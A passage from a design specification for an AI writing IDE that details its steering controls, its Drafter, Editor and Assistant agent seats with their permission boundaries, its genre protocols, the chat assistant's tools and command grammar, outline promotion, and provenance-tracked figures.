| **Pause** | **at phase boundaries at MVP**: the card offers *Pause after this phase*; the run commits the phase and parks at zero compute; the card shows *Paused after Verifying sources (3 of 8)* with Resume / Resume with a note / Stop. Section-granular pause inside a writing phase ("Paused at §III (2 of 6)") requires both the streaming-input spike (§16.3 #4) and a `resume_from: partial-draft.md` skill input with tested semantics ("keep sections marked complete verbatim; continue at §k"); until both exist the card never promises it (REQ-GATE-12 amended) | MVP / 1.x |
| **Stop, keep partials** | cancel with committed artifacts retained and labeled `partial (3/6 phases)`, resumable; a stopped review that finished fact-check has a real claim ledger (REQ-GATE-13) | MVP |
| **Note for the next phase** | one text field on the running card; becomes `Guidance{source:'queued_message'}` delivered at the next phase boundary; never delivered into independence contexts (second read, fidelity audit, gap check) (REQ-RUN-18) | MVP |
| **Queued guidance with delivery points** | text typed while running shows its planned delivery point ("→ start of §IV, ≈3 min"), editable and deletable until delivered (REQ-GATE-14) | 1.x |
| **Batched inline comments** | on streaming draft text, plan rows, and findings; delivered at the stated boundary as one `Guidance{source:'inline_comment'}` listing anchors; a drawer shows the pending batch; *Send now* forces delivery at the next tool-batch boundary with a warned cost (REQ-GATE-15/16) | 1.x |
| **Side questions** | `/btw` or *Ask about this run*: an ordinary Assistant turn reading committed artifacts and the event feed, never the live session (REQ-CHAT-20) | MVP |

Plans and ledgers are edited *at their Approvals* and written back into the files the next phase reads (REQ-SPEC-9); after approval they are frozen for that run and mid-run intent flows through the note and (1.x) comments — Warp's "edit the plan mid-run" is matched in effect, not mechanism (ledger K7 narrowed; K10). A re-plan the skill performs on a declared back-edge (§12.2) re-opens Approve plan when the plan artifact's hash changes after approval. Steering never edits `agents/**`, never lets the human write into the draft a run is writing, never delivers into an independence context (enforced, not advised).

**Guidance** is the only human input the skills accept after launch, made an object (REQ-GATE-9; ledger C19):

```ts
type Guidance = {
  id: string; projectId: string;
  scope: 'run' | 'project';                 // 'project' = standing guidance
  workflows?: WorkflowId[];
  source: 'run_sheet' | 'gate_edit' | 'gate_text' | 'inline_comment' | 'queued_message' | 'chat_promote' | 'interview';
  text: string;                             // what the skill receives, verbatim
  anchors?: ArtifactAnchor[];
  createdBy: UserId; createdAt: string;
  consumedBy?: { runId: string; phase: string }[];
  active: boolean;                          // standing guidance can be retired, never deleted
};
```

Guidance is rendered into the skill's `guidance` input as a dated, sourced list; the delivered note or letter names how it was honored; the UI links each record to the phase that consumed it. Guidance never edits `agents/**` directly (REQ-GATE-11; REQ-RUN-7).

### 6.6 Agent seats: authorship and boundary, not navigation

The founding prompt asked whether separate agent roles belong in the IDE at all. Four options were weighed — roles as tabs/panels, roles as personas in one chat, roles as authors of artifacts on the timeline, roles hidden — and the third is chosen [design/2 §6]. The boundary between the two seats is the product's integrity guarantee and is *marketed*; hiding it would discard the one claim reviewer-theatre products cannot make; tabs would misstate the relationship (the user is the author, so the Drafter is the user's own assistant, not a peer); personas-in-one-chat would blur the memory boundary.

**Naming (R8).** Product surfaces use **Drafter** (the author-side agent: drafts, revises, cuts, line-edits, maps the field; its memory is the user's own working record), **Editor** (the independent review seat: reviews, fact-checks, steelmans; its deliberations are hidden, its dossier is the product), and **Assistant** (the in-IDE research chat; reads the shared record; runs Research bursts; can prepare any workflow; its terminal artifact is an Outline). The words "author" and "authored" are reserved for the human and appear in provenance labels ("Edited by you", "AI-use statement"); no UI string labels an agent "author" (REQ-PROD-1; ICMJE/COPE forbid AI authorship). **Once, and not repeated:** the storage namespace remains `agents/author/` and the internal `AgentTypeKey` remains `author`, so the ported `SKILL.md` files and `conventions/project-memory.md` paths work unchanged; the i18n table maps `author → Drafter`. Rejected: *Author* (authorship claim), *Writer* (collides with the Writer plan), *Reviewer* (reads as peer reviewer), *Critic*, *Copilot*.

**The seat set, fixed once (REQ-SPEC-21; review 11 #5).** There are exactly **five seats** and five `AgentTypeKey` values: the three user-facing seats `author` (Drafter), `editor`, `assistant`; **`persona_builder`** (Persona builder; a badge on voice runs, never on project artifacts); and **`system`** (the orchestrator: Run rounds' loop, reaping, reconciliation; badge "Rhema"). Steelman runs in the **Editor** namespace and Map the field in the **Drafter** namespace under those seats' mounts (§12.6); they are new run kinds and new *verb* badges, never new seats. "Researcher", "Second read", "Fact-checker", "Discourse mapper", "Fidelity auditor", "Gap analyst" and "Hold-out calibrator" are **subagent labels** (`UsageRecord.subagentLabel`) inside a seat's run, shown in the feed and the run report's seat split as "Editor › Second read", never as seats. **Knowledge bases (review 11 #34):** the founding prompt's per-agent "knowledge bases" are, in this design, the Drafter's research library (`agents/author/research/`), the voice profile view each seat is granted, and the Assistant's chat sources; user-attached corpora per seat (a bibliography the Editor may consult, a house style guide the Drafter must obey beyond a voice) are Later (matrix row 70).

Concretely:
1. Every run card and deliverable carries a **seat badge** — Drafter (drafts, drafting notes, response letters), Editor (dossiers, letters, second reads), Assistant, Rhema, You. Runs are named by verb ("Review of v2"), never by agent.
2. The Browser shows provenance badges naming seat, run and phase.
3. In chat there is one voice, the Assistant, with author-side access: it may read the shared record and the Drafter's notebook (except unfrozen response ledgers — §7.1) and never the Editor's memory; it does not role-play the Editor; "what would the editor say?" prepares a Review, Fact-check or Steelman run (REQ-IDE-22; §7.1).
4. **Seat profile pages** (`/p/:project/agents/{drafter,editor,assistant}`) are reached from any badge, on-demand tier (REQ-IDE-20/21) — **1.x** (review 12 #28): at MVP the trust chip on every dossier and the run report's seat split carry the message, and a badge click opens the run report.

```
/p/politics-of-visibility/agents/editor
┌ Editor ────────────────────────────────────────────────────────────┐
│ Boundary   Mounted: drafts · correspondence · voice (structure,     │
│            venue, positions, continuity — never voice files)        │
│            Never mounted: the Drafter's notebook  ✓ hydration manifest│
│ Config     Protocol: Academic · Rigor default: Standard             │
│            Second read: independent model  ·  Venue bar: LRB        │
│ Memory     Sealed working notes (2 rounds)  ·  Sources fetched: 52  │
│            [View fetched URLs]         (deliberations never shown)  │
│ Spend      This project: 2,710 cr across 2 runs  ▁▃▆   [Usage →]   │
│ Runs       Review of v1 · 49 findings · 1,450 cr · 31 min           │
└────────────────────────────────────────────────────────────────────┘
```

The Drafter page's Memory section is an inspectable list (outline, drafting dossiers per version, research index, voice charter with "Add guidance", response ledgers) opening read-only; the Editor page shows counts and fetched URLs only. The composite "editorial board" is marketing for the Editor run's phases and subagents (fact-checker, discourse mapper, second reader), shown as such in the feed; Steelman and Map the field are new verb badges, not new seats or navigation. Every dossier header states the boundary as a trust chip derived from facts the sandbox cannot touch — the server-generated hydration manifest and the proxy's request log (§12.6; REQ-PROD-2).

### 6.7 Genres as protocol objects

A genre is a versioned **Protocol** — configuration over the seven Review phases and the Draft/Revise inputs, never a skill fork (REQ-GENRE-1). Rejected: a weighted universal rubric, per-genre skill copies, free-form user protocols in MVP.

```ts
type Protocol = {
  id: 'academic' | 'essay' | 'op-ed' | 'memo' | string; version: number; name: string; tagline: string;
  variants: ProtocolVariant[];
  rubric: { dimensions: RubricDimension[8]; swaps?: {from: string; to: RubricDimension}[]; caps: CapRule[] };
  venue_bar: { kind: 'user-venue' | 'own-archive' | 'outlet-table' | 'silent-read'; table?: VenueRow[]; prompt: string };
  phase_defaults: { verification: boolean; discourse: boolean; second_read: boolean; grounding: boolean; audit: boolean;
                    stage: 'early' | 'near-final' | 'infer'; line_depth: 'light' | 'full' };
  calibration_language: { verdicts: string[]; reviewer_voice: string };
  length_norms: { unit: 'words' | 'pages' | 'minutes'; default?: number; from_venue?: boolean; apparatus: 'none'|'light'|'full' };
  integrity_norms: { machine_may_not_supply: string[]; disclosure_artifact?: 'icmje' | 'none'; exclusivity_reminder?: boolean;
                     web_fetch_of_user_data: 'allowed' | 'forbidden' };
  intake_expectations: { typical_inputs: string[]; entry_default: 'chat' | 'outline' | 'draft' };
  workflow_availability: Record<WorkflowId, 'default' | 'available' | 'off'>;
  user_editable: ('venue' | 'length' | 'phase_defaults' | 'stage')[];
};
```

| Field | **Academic** | **Essay** | **Op-ed** | **Memo** |
|---|---|---|---|---|
| Variants | journal-article (default) · thesis-chapter · grant-proposal | long-form (default) · newsletter-short | national (default) · regional/trade | six-pager (default) · report · whitepaper |
| Rubric | the 8 as-is | the 8; letter leads with Voice & audience fit and Originality | the 8 + **Timeliness**; Structure anchored to the OpEd Project form | swap Originality → **Decision readiness**; add **Scope discipline** |
| Venue bar | target journal / committee; seeded table (e.g. PLOS ONE abstract ≤300) | own archive (linked voice) or a named venue | outlet table (NYT 400–1,200; WaPo ≤750; WSJ 600–1,200; LAT ~750; USA Today 650–900; Globe ≤700), `verified_at` per row | "six-pager read silently"; optional named audience |
| Phase defaults | all on; `stage: infer` | all on; `stage: infer` | all on; `near-final`; line depth full | discourse **off**; verification with user-supplied-source verdicts; web fetch of user data forbidden |
| Verdicts | accept · minor · major · reject · reject premise (reviewer voice) | publish · revise · rethink | run · pass ("why not this week") | ship · rewrite · needs data |
| Length / apparatus | words from venue; apparatus full; abstract & keywords required | the voice's regimes; apparatus none/light | outlet cap; links only | pages (6); apparatus light; executive summary required |
| Integrity | no fabricated references; disclosure statement at export; machine may not supply results, data, first-person method | none platform-level | exclusivity reminder at export; sourced news peg | no web fetch of internal figures; machine may not supply the recommendation or numbers |
| Intake / entry | outline + bibliography + prior drafts / outline | notes or nothing / chat | a take + a news peg / chat | data + decision + audience / outline |
| Workflow availability | all; Abstract default; Submission pack 1.x | all; Abstract available | all; Cut to length bound to the outlet (1.x); Fact-check default at MVP, Map the field default from 1.x | all; Map the field off by default; Figure default; Abstract → executive summary |

Users pick protocol + venue at project creation (REQ-GENRE-4 default rule), may change protocol any time in project settings (delivered dossiers keep `protocol@version`; the next Review's scope card says "protocol changed since v2 was reviewed" and blocks — §6.4), may override protocol/venue/stage/phase toggles per run in Advanced, and until custom protocols ship (Later) may edit only the safe fields `venue`, `length_norms`, `phase_defaults`, `stage` (REQ-GENRE-2). The four protocols ship as seeded, versioned rows with named venue tables re-verified before launch (REQ-GENRE-3). The Academic disclosure statement is generated from run history at export — a service, never a gate (REQ-GENRE-5); from v0.3 the same generator serves per-protocol **AI-use statement** templates at MVP (ICMJE-shaped for Academic; a general statement for Essay/Op-ed/Memo — REQ-POS-6), removing the v0.2 incoherence where the Academic writer got a disclosure while the launch segment got nothing until 1.x. Memo runs carry a per-run `user_sources[]` set (REQ-GENRE-6). Adding a genre is a registry row, a rubric file, and at most one ledger-column extension (REQ-GENRE-7).

### 6.8 Run rounds (loop to convergence)

A round is one Review → Revise unit sequenced by the orchestrator's loop with state in the round log. **Criteria** (pick one or more; all must hold): verdict ∈ {accept, minor} or the protocol's equivalent; no rubric cap and every dimension ≥ floor (default 4); the second read's thesis agrees with the Editor's; no blocking/major **obligation** open after two consecutive covering rounds (lineage by obligation rows — §11.7; supersedes v0.2's "lineage by finding id"). Always: `max_rounds` (default 3, max 5) and a mandatory `budget`. The model's own sense of "done" is never a criterion. **Stall detection (amended v0.3):** the criterion is a query, not loop-log prose — `exists obligation where severity in ('blocking','major') and roundsOpen ≥ 2 and state not in ('rebutted','deferred')` with no rubric-dimension improvement — stop and escalate to the Decisions inbox (an in-horizon deferral is a recorded snooze, not a stall — it re-enters the query when the horizon's arrival returns it to `open`, §11.7; design/19 F-11). Because obligations are project rows rather than loop-log rows, **stall detection works identically for hand-run Review → Revise rounds at MVP** (REQ-WF-15 amended; REQ-OBJ-5), not only under this 1.x workflow; the Convergence report reads the same rows (REQ-PROD-12 amended). **Autonomy** (never "checkpoint" in the UI — §4.3): *Ask each round* (default; `ask_each_round`) · *Ask at every Approval* (`ask_each_approval`) · *Run all rounds* (`auto`; Studio+, both caps, every auto-decision flagged). Run rounds ships in 1.x. The run card shows cumulative spend vs budget, rounds used, and criterion chips; the loop produces a Convergence report and writes each round to the timeline exactly as if run by hand (REQ-PROD-12).

---
## 7. The chat/research session and AI-generated visualizations

### 7.1 The Assistant

The Assistant is the overlay orchestrator for a project: the place the writer thinks aloud, researches, asks about artifacts, and prepares work. It is a **fourth agent-type on the same harness** as the workflows, not a lighter loop (one provenance model, one cost meter, one fetch discipline) [design/6 §1; research/7 §7]. It is deliberately **not the correspondence** (chat is ephemeral, never cited by a skill, never part of a dossier — "the Editor never saw the Drafter's rationalizations" includes the chat) and **not where the draft is written** (whole-draft generation is a run; chat produces outlines, figures, paragraph-sized suggestions, research notes — never `drafts/vN.md`).

```ts
const assistant: AgentTypeConfig = {
  id: 'assistant', seat: 'author-side',
  read: ['manifest', 'drafts/**', 'correspondence/**', 'assets/**',
         'agents/author/outline/**', 'agents/author/research/index.md', 'agents/author/research/sources/*.md',
         'agents/author/voice-charter.md',
         'agents/author/ledgers/*.md /* frozen (delivered) ledgers only — review 13 F19 */',   // the user's own notebook, read-only
         'agents/assistant/**',
         'persona/<linked>/profile/{index,exemplars,positions,continuity,audience-and-venue}.md'],
  write: ['agents/assistant/**'],
  deny:  ['agents/editor/**', 'persona/*/profile/corpus/HOLDOUT-*', 'agents/author/ledgers/* (unfrozen)'],
  tools: ['search', 'fetch', 'read_artifact', 'start_workflow', 'propose_outline', 'visualize', 'elicit', 'measure', 'attach'],
  model: 'per-thread tier (default Base, regardless of the account default — chat is many small turns where Base is fast and cheap; the picker is one click)',
  budget: { perTurnCredits: 40, perTurnSearches: 5, perTurnFetches: 10 },
};
```

**Attachments** (review 12 #2): a PDF, `.docx`, `.md` or `.txt` dropped into the composer goes through `fetcher`/`convert` (§12.1) and lands as a chat source note (`agents/assistant/research/sources/`) with a source card, exactly like a fetched page; images are 1.x (a `visualize`-adjacent "read this chart" path). Attachments are never mounted into runs except through the two conduits.

**The two-conduit rule (REQ-CHAT-1/2/3).** Nothing in `agents/assistant/**` is ever mounted into a Drafter or Editor run. Chat reaches the pipeline only as (a) the Outline artifact written by an `outline-from-research` run in the Drafter seat, or (b) a `Guidance` record the user explicitly promotes. The Assistant never writes to `drafts/`, `correspondence/`, `agents/author/**`, or voice profiles; anything durable is produced by a run it *prepares*. The Assistant may read the Drafter's notebook because the user is the author and sees those files anyway (R9; §16.2); the Drafter never reads chat, because a drafting run that inherits an hour of brainstorming inherits its half-decisions and unfetched claims.

**Threads.** A project has one default thread ("Project chat") and any number of named threads under `agents/assistant/threads/<id>/{session/, brief.md, pins.json}` plus `agents/assistant/research/{index.md, sources/}` (distilled notes, never raw pages) and working `figures/`. Threads are per project and private to their creator; deleting a thread deletes its transcript and brief but keeps its source notes; the default thread cannot be deleted (REQ-CHAT-4). Chat source notes appear in the Browser under *Research → Chat sources*, read-only (REQ-CHAT-5).

**Toolset.** `search` and `fetch` (Anthropic web tools; every fetch goes through the same URL policy as runs — hold-outs denied, robots/paywall honored, every URL logged — REQ-CHAT-7); `read_artifact(ref)` with typed refs (`@v3 §II`, `@review:v2`, `@outline`, `@finding:v2/17`, `@claim:v2/41`, `@figure:…`; unresolvable refs error, never substitute memory — REQ-CHAT-8; section-scoped by default, `--all` shows its token cost); `start_workflow`, `propose_outline`, `visualize` are **preparatory only** — they return a run sheet and never create a run (REQ-CHAT-6); `elicit` renders a short interview whose answers become Guidance; `measure` gives deterministic prose metrics for free. **There is no `ask_editor_role`**: the Editor's value is independence, so "Ask the editor" is a button that prepares Fact-check, Steelman, or a scoped Review; the chat can *commission* the Editor, never *consult* it.

**Turn anatomy and cost.** Every Assistant turn shows an activity strip (`▸ Read @outline (§2, §4) ▸ 3 searches ▸ 4 sources read`) driven by events, never model free-text; expanding it shows queries and source cards, never prompts or raw page text; every fetched page has a source card that opens the note if written, else the URL (REQ-CHAT-11). Each turn shows its credits in tabular figures (hover: tokens in/out/cache-read, searches, tier), labeled as a meter not an invoice; the composer footer shows the thread's spend today (REQ-CHAT-9). A turn runs freely within the per-turn budget; beyond it the Assistant must stop and emit a **plan card** (steps, estimated searches/fetches, estimate and cap) with *Run as background research* (a **Research** run — `research_burst`, §6.2, REQ-SPEC-15 — launched through the run sheet) / *Do the first step only* / *Edit* (REQ-CHAT-10 amended). The tier picker is per thread and shows the **notch only** (`Base · Balanced · Frontier`); the model name appears on hover and in the Advanced disclosure, keeping REQ-PROD-5 ("model names only in Advanced and the run report") intact (REQ-CHAT-14 amended; review 11 #16); research tools stay on Anthropic-hosted models until 1.x and the picker greys them for any later non-Anthropic notch.

```
┌ Chat · Project chat ───────────────────────────────────────────── Frontier ▾ ┐
│  You                                                                   14:02     │
│  Is the "nothing to hide" argument still the standard framing in privacy law,    │
│  or has the harms-based account displaced it? @outline                           │
│  Assistant                                                       12 cr · 14:03   │
│  ▸ Read @outline (§2, §4)   ▸ 3 searches   ▸ 4 sources read                      │
│  ┌ Sources ───────────────────────────────────────────────────────────────────┐  │
│  │ Solove, "I've Got Nothing to Hide" (2007) · ssrn.com · read 14:03          │  │
│  │ Citron & Solove, "Privacy Harms" (2022) · bu.edu · read 14:03  · 2 more    │  │
│  └────────────────────────────────────────────────────────────────────────────┘  │
│  Both are live. The harms-based account has displaced it as the *doctrinal*      │
│  framing … Your §2 treats them as sequential; the sources suggest concurrent. [1][2]│
│  ↳ Promote to outline   ↳ Save as guidance   ↳ Ask the editor…   ↳ Pin           │
├──────────────────────────────────────────────────────────────────────────────────┤
│  ⌘K /  @                                                    Thread: 148 cr today │
│  Ask, research, or type / for a command…                                        │
└──────────────────────────────────────────────────────────────────────────────────┘
```

**Long-session context.** A `PreCompact` hook writes a ≤600-word `brief.md` (standing question, decisions with turn numbers, open threads, sources read, pins); `PostCompact` re-injects it; the user can open "What the assistant remembers" and correct it with provenance (REQ-CHAT-12). The same hook family serves every seat: in workflow phases `PreCompact` injects "re-read these files before continuing: <the phase's declared inputs from the manifest>", compactions are counted per phase in the run report, and a phase that compacts twice raises an ETA/cost flag (review 13 F7). **Pins** (≤12 per thread) keep a 300-token summary in context permanently and are re-read in full only when needed — the single biggest lever on chat cost since cost is ≈75% re-sent context (REQ-CHAT-13).

### 7.2 Commands anywhere: one grammar

```
/<verb> [@scope …] [--lever value …] [free text → guidance]      ← the parser's grammar
/verb  [scope pill ▾]  [Quick] [No second read] [Protocol: Essay]  free text…   ← what the user sees
```

The grammar is an **implementation** rule — one parser everywhere — never a user surface (review 12 #11). Typing `/` opens a **structured row**: the verb, then a scope pill (`@section`, `@selection`, `@finding`, …) picked from a menu, then lever *chips* (Quick · No second read · Protocol: Essay · Wait for me), then free text. Flags remain accepted for people who type them and are converted to chips by completion; `--` is never shown in a default surface, help card, or empty-state chip.

| Verb | Workflow | Seat | Default scope / notes | Phase |
|---|---|---|---|---|
| `/draft` | Draft | Drafter | whole outline; `@section:II` drafts one section (1.x) | MVP |
| `/review` | Review | Editor | latest unreviewed draft; `@section` restricts findings; `--protocol academic\|essay\|oped\|memo` | MVP |
| `/revise` | Revise | Drafter | latest unanswered review; `@finding:…` subset (unaddressed findings recorded `deferred: not in scope`) | MVP |
| `/factcheck` | Fact-check | Editor | latest draft or `@section`/selection; `--tiers 1\|all` | MVP |
| `/research` | **Research** (`research_burst`); `--map` → Map the field from 1.x | Assistant / Drafter | question; `--sources N`; `--strata academic\|general\|all` (1.x) | MVP |
| `/outline` | Outline | Drafter | current thread | MVP |
| `/visualize` | Figure | Drafter | selection, `@claim:…`, `@asset:…`, or free text | MVP |
| `/cut` | Cut to length | Drafter | `--target 900` or `--venue nyt-oped`; `--protect @section:IV` | 1.x |
| `/lineedit` · `/title` · `/abstract` · `/reverse-outline` | Line edit · Titles · Abstract · Reverse outline | Drafter | `@section` or selection; latest draft | 1.x |
| `/steelman` | Steelman | Editor | latest draft or `@outline` | 1.x |
| `/interview` | Interview me | Drafter | outline gaps or draft open questions | 1.x |
| `/rounds` | Run rounds | Rhema (system) | `--until minor\|rubric>=4 --max 3 --budget 6000` | 1.x |
| `/update-voice` · `/export` · `/compare @v2 @v3` | voice update · export · diff | — | designed in their own sections | MVP |

**Scopes:** `@v3`, `@v3 §II`, `@section:"The Harms Turn"`, `@selection`, `@outline`, `@review:v2`, `@finding:v2/17`, `@claim:v2/41`, `@figure:fig_x`, `@thread`. **Levers:** `--rigor quick|standard|full-board`, `--tier base|balanced|frontier` (Advanced), `--stage early|near-final`, `--no-discourse`, `--no-second-read`, `--no-factcheck`, `--variants …` (1.x), `--wait`, `--auto`. Free text after the levers is the run's `guidance`. One parser serves the chat composer, the palette, the selection popover (*Ask, Visualize, Fact-check, Review this section*; *Line-edit*, *Cut* from 1.x) and the artifact/timeline context menu; all four produce an identical run sheet (REQ-CHAT-21/22).

**Scoped runs** (REQ-CHAT-23/24): `/review @section:III` still reads the whole draft for the piece brief but restricts inventory, discourse, craft, second read and findings to the range; the dossier is a *section letter* at `correspondence/v3-review-2/` with `scope` in the brief. `/draft @section:II` drafts one section into a working copy and never overwrites a reviewed vN. `scope` is a first-class run input for review, fact-check, line-edit, draft and revise (ledger G22).

**Parallel variants** (REQ-CHAT-26/27; **1.x**, review 12 #28): `--variants` is accepted by `/review`, `/factcheck`, `/draft @section`, `/title`, `/abstract`, `/cut`; refused by whole `/draft` and `/revise`. Variants differ in exactly one lever, share `input_snapshot`, appear as one grouped row on the Timeline, and open a compare view; `/review --variants academic,essay` yields two dossiers with findings grouped "both / only A / only B" and *Respond to A / B / the union*. Section variants offer *Pick* or *Merge by paragraph*. Variants count against the plan's concurrency limit; the sheet says which will queue.

```
┌ v3 · Review A (Academic) ‖ Review B (Essay) ─────────────────────────────┐
│ Verdict   major revisions ‖ minor revisions                              │
│ Findings  both (14) · only A (9) · only B (3)      filter ▾  severity ▾  │
│ #  Passage (§¶)         A                  B                  → revise    │
│ 1  §II ¶3 "…"           major · thesis     major · thesis     [both]      │
│ 2  §III ¶1 "…"          major · evidence   —                  [A only]    │
│ [ Revise from A ]  [ Revise from B ]  [ Revise from the union ]          │
└──────────────────────────────────────────────────────────────────────────┘
```

### 7.3 "Generate official outline"

Promotion to an outline is a **run**, not an export [design/6 §1.7; research/5 §5]:

1. **Trigger:** *Promote to outline* on a turn (scopes to that turn and its ancestors), *Promote thread*, `/outline`, or the Assistant proposing it when it detects a stable thesis.
2. **Run sheet:** workflow Outline, scope thread/turn, levers thesis (prefilled), venue, target length, protocol, voice; estimate C1–C2 (mostly re-fetching the thread's URLs).
3. **Run** in the Drafter seat: harvest → classify claims (commitment / advice / material / alternatives) → spine (5–12 claims) and section map with per-bullet provenance → gaps list; the card shows URLs re-fetched and any that failed (each becomes an `[unverified]` bullet, never silently dropped).
4. **Approve outline** card (waits indefinitely — REQ-CHAT-15): the structured outline, gaps, unverified count, and the *next* estimate ("Draft on Balanced ≈ 940 credits"); actions Approve · Edit in outline editor · Back to chat with notes.
5. On approval the run writes `agents/author/outline/<slug>.md` with a provenance header, migrates the thread's source notes into `agents/author/research/`, moves the project to *Outlined*, and the next-step card becomes *Draft v1* (REQ-CHAT-16/17). On a project already holding a draft, promotion produces `outline vN+1` and offers `/draft @section` rather than a whole new draft.

```markdown
---
rhema: outline/1
project: prj_…            slug: privacy-harms-after-solove
provenance: { thread: thr_…, promoted_from_turn: 47, run: run_…, generated_at: 2026-08-27T14:41:00Z,
              sources_refetched: 11, sources_unverified: 1 }
thesis: "The harms-based account has not replaced 'nothing to hide'; it answers it, and privacy law needs both."
venue: "law review / general"   audience: "…"   target_length: 6000
voice: sjs-academic (profile 2026-07-02)   protocol: academic
---
## Spine (claims the piece must establish, in order)
1. … [commitment] (src: solove-2007 §I; citron-solove-2022 p. 4)
## Sections
### I. …  (~900 words)
- Function: … · Entry: … · Exit: …   · Claims: 1, 2 · Material: [bullets with source slugs]
## Alternatives considered (and why not)
## Gaps only the author can fill        ← each becomes an `elicit` question on demand
## Sources (fetched during the session; slugs resolve to agents/author/research/sources/)
```

The outline is the one artifact that is both agent-produced and surfaced-editable (it is the user's document); editing after v1 exists is versioned (`outline v2`) and the v1 drafting note keeps referring to outline v1; deleting the outline is disallowed once a draft cites it (REQ-DATA-23). Mobile can view and approve the card; the outline editor is web-only (REQ-CHAT-18).

**The outline editor** (review 12 #29) is a **structured spine-and-sections editor**, not the Page in Write mode over front-matter, because Draft reads the spine. It is the same component as the Approve-plan card's editable fields (§6.4), unlocked:

```
┌ Outline v1 · privacy-harms-after-solove ───────────────────── [Draft v1 ≈ 400 cr] ┐
│ Thesis  [ The harms-based account has not replaced "nothing to hide"; it … ]     │
│ Venue [law review / general]  Audience [ … ]  Target [6,000] words  Protocol Academic│
│ SPINE (claims, in order)                          SECTIONS                       │
│ 1 ☰ [commitment] Harms answers, not replaces …    I  ☰ The received view   ~900 ▾│
│      src: solove-2007 §I · citron-solove-2022 p.4     Function · Entry · Exit ▸   │
│ 2 ☰ [material]  Citron & Solove's taxonomy …          Claims: 1, 2 · Material ▸  │
│ 3 ☰ [unverified] The 2019 guidance …  ⚠ fetch failed  II ☰ What the harms turn… ▾│
│ + add a claim…                                        + add a section…           │
│ Alternatives considered ▸   Gaps only you can fill (3) ▸ [Interview me]          │
│ Sources (11 fetched · 1 unverified) ▸                                            │
└──────────────────────────────────────────────────────────────────────────────────┘
```

Rows drag to reorder; a claim row keeps its provenance line and `[unverified]` mark until a source resolves; section rows carry target words and function; free-prose fields (thesis, function, entry/exit) are single-line inputs. Every edit autosaves to the outline artifact (versioned after v1 exists) and is reflected in the Draft run sheet's estimate.

### 7.4 "Ask about this draft"

Selecting a passage and pressing `⌘J` (or the popover's *Ask*) opens the composer with an `@v3 ¶…` anchor; the answer can carry an anchored **suggestion** (≤1 paragraph, offered as a proposal card beside the Page whose *Accept* applies one transaction with block provenance `assistant`) — the same primitive as a suggestion-bearing review finding and its Apply verb; whole-section rewrites are refused with a pointer to `/lineedit @section` (1.x) or `/revise` (REQ-CHAT-19 amended). During a run, side questions read only committed artifacts and the event feed (REQ-CHAT-20). Empty-state chips on an uploaded draft: *What is my thesis, as read?* · *Which claims will an editor check?* (≈5 cr) · *Fact-check §…* · *Review this draft (≈ … cr)*.

### 7.5 AI-generated visualizations

A figure is a **claim-bearing asset** — spec + data + provenance — living in the shared record because both seats read it (the Editor to fact-check, the Drafter to revise) [design/6 §5; research/9 §8]:

```
<project>/assets/figures/<figure-id>/
  spec.vl.json | diagram.mmd | table.md     # source of truth
  data.csv                                  # the numbers, exactly as plotted
  provenance.json                           # where every number came from
  render.svg, render.dark.svg, render@2x.png# cache; regenerable
  versions/<n>/…                            # every iteration keeps spec+data+provenance
```

**REQ-VIZ-1.** Figures are stored as spec + data + provenance + cached renders, versioned per iteration; renders are regenerable from the spec and never the source of truth. **REQ-VIZ-2.** `alt` (≤ 250 characters) and `sourceLine` are required before a figure can be inserted.

```ts
type FigureAsset = {
  id: string; projectId: string; kind: 'chart' | 'diagram' | 'table';
  title: string; caption: string; alt: string;         // alt required, ≤ 250 chars (REQ-VIZ-2)
  sourceLine: string;                                   // "Source: CHES 2019, authors' calculation."
  spec: VegaLiteSpec | MermaidText | GfmTable;
  data?: { rows: number; columns: string[]; csvSha256: string };
  provenance: { kind: 'selection' | 'claim_ledger' | 'asset_upload' | 'fetched' | 'user_typed' | 'none';
    refs: Array<{ url?: string; accessedAt?: string; claimId?: string; assetId?: string; transform?: string }>;
    computedBy: 'assistant' | 'drafter' | 'user';
    verification: 'unverified' | 'verified' | 'contradicted' | 'unverifiable' };   // set by review
  anchor?: { draftVersion: number; blockId: string };
  versions: Array<{ n: number; request: string; specSha256: string; createdAt: string; cost: number }>;
};
```

**Entry points** (REQ-VIZ-3): from chat ("make a bar chart of the CHES correlations by party family"); from a selection in the Page (*Visualize*, anchor defaults to after the selection); `/visualize` with `@claim:`, `@asset:` or free text; *Edit figure* on an existing block; the *Visualize* action on a "would benefit from a figure" craft finding.

**Data resolution — the honesty step** (REQ-VIZ-4/5). Before any spec is generated the run classifies where the numbers come from and says so: numbers in the selection/draft (`selection`; no badge — the review checks them anyway); a claim-ledger row (`claim_ledger`; inherits `verified`); an uploaded CSV/JSON (`asset_upload`); a URL fetched now (`fetched`); numbers the user types in an inline grid (`user_typed`, badge *author-supplied*); numbers the model "remembers" — **refused**: "I don't have a source for these numbers", offering the four routes; if the user insists, the figure is created with `provenance.kind = 'none'` and a persistent **`[unverified data]`** badge in the Page and in every export until provenance is attached or a review verdict lands. The data table is shown before rendering; cell corrections are recorded as `user_typed` overrides.

**Spec, render, card** (REQ-VIZ-6/7/8): Vega-Lite (schema-validated, ≤3 retries) for charts; Mermaid via `beautiful-mermaid` for flowchart / state / sequence / class / ER / xychart; GFM/HTML tables need no render. Rendering is deterministic TypeScript producing light and dark SVG themed from the design tokens (one neutral palette, ≥4.5:1 labels, no animation), PNG@2x lazily; it runs in the export/ingestion container or a sandboxed render worker, never in the browser for the persisted render, so the IDE, review and export see byte-identical SVG (ledger M16). Unsupported types are declined with a suggestion.

```
┌ Figure · v2 ────────────────────────────────────────────────── 6 cr ┐
│ ┌────────────────────────────────────────────────────────────────┐  │
│ │        Correlation of GAL–TAN position with …                  │  │
│ │  ▇▇▇▇▇▇▇▇▇▇▇▇▇▇▇ 0.71  Radical right                          │  │
│ │  ▇▇▇▇▇▇▇▇▇ 0.42        Conservative                            │  │
│ │  ▇▇▇▇ 0.18             Liberal        ▇ 0.04  Social democratic │  │
│ └────────────────────────────────────────────────────────────────┘  │
│ Type   ● Bar  ○ Line  ○ Dot  ○ Table       Theme  ● follows paper  │
│ Caption  Figure 2. Correlation of party-family GAL–TAN position …   │
│ Alt      Horizontal bar chart of four party families; radical …     │
│ Source   CHES 2019 (chesdata.eu), authors' calculation.  ✓ fetched  │
│ Data ▸ (4 rows · from @claim:v3/28, v3/29)   Spec ▸   Versions ▸ (2)│
│ Insert after ¶ "The pattern is starkest among…" (§III) ▾            │
│ [ Insert as proposal ]   [ Iterate… ]   [ Discard ]                 │
└─────────────────────────────────────────────────────────────────────┘
```

